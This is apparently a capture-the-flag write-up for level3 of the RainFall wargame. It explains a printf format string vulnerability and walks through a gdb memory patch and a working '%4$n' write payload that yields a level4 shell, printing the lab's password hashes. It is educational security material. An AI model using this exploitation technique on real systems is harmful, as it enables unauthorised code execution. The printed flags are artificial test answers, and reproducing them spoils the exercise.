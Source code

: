 Format String Vulnerability: 
Using printf(buffer) directly means a user can inject format specifiers (%x, %s, etc.).

Potential Exploit Path: If attacker controls buffer and global at 0x804988c, it may allow arbitrary code execution via the system() call.

level3@RainFall:~$ gdb ./level3 
(gdb) b v
Breakpoint 1 at 0x80484ad
(gdb) r
Starting program: /home/user/level3/level3 
Breakpoint 1, 0x080484ad in v ()
(gdb) set *(int*)0x804988c = 0x40
(gdb) continue
Continuing.
lo
lo
Wait what?!
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

Then it calls printf() directly with the user input as the format string — this introduces a format string vulnerability.

another way :
We leak the stack using "\%x" to find where our input lands on the stack, so that we can insert an address like 0x804988c into our input, and printf will read that address as a pointer to write to via %n

python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x"'
output:
aaaa 200 b7fd1ac0 b7ff37d0 61616161 ...

You see 61616161 (which is 'aaaa'), that tells you where in the stack your input lands. If 'aaaa' shows up at the 4th \%x, then your input is the 4th argument on the stack.

address of m : 4 bytes
pad of arbitrary data : 60 bytes

\%n is a format specifier in printf that tells printf to write the number of characters printed so far into the memory location pointed to by the corresponding argument.

\%4$n means:
1.Look at the 4th argument on the stack (passed to printf) and treat that argument as a pointer to an integer.
2.Write the number of characters printed so far into the memory location pointed to by that 4th argument.

level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
^C
level3@RainFall:~$ su level4
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
level4@RainFall:~$